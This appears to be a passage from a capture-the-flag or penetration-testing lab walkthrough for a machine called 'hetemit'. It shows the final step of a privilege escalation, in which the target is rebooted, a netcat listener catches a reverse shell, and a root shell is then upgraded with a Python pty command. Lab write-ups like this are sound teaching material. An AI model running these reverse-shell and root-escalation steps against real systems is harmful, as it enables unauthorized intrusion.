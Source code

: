 We will restart our listener on port 18000, and then reboot the machine:

```
[cmeeks@hetemit ~]$ sudo reboot
```

When the machine boots up, we obtain a root shell:

```
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.36] 57890
python3 -c 'import pty; pty.spawn("/bin/bash")'

[root@hetemit /]# whoami
root

[root@hetemit /]# 
```